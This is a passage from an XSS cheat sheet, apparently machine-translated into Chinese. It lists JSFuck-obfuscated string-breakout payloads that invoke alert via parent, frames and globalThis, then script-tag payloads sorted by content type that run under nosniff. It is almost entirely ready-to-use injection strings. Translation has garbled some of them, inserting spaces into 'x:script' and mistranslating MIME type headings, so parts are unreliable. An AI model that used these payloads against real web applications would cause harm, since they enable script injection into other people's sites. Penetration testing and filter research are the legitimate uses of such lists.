 #### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (parent)**

```
';parent[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/JSFuck (frames)**

```
';frames[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

#### **XSS 转换成 JavaScript 字符串:Hieroglyphy/js fuck(global this)**

```
';globalThis[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
```

## **内容类型**

我们的 XSS 备忘单的这一部分列出了可用于 XSS 的内容类型，其中 X-Content-Type-Options: nosniff 标题及其 POC 处于活动状态。

#### **文本/html**

```
<script>alert(document.domain)</script>
```

#### **应用/xhtml+xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **应用程序/xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **文本/xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **image/svg+xml**

```
<x : script xmlns : x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
```

#### **文字/xsl**
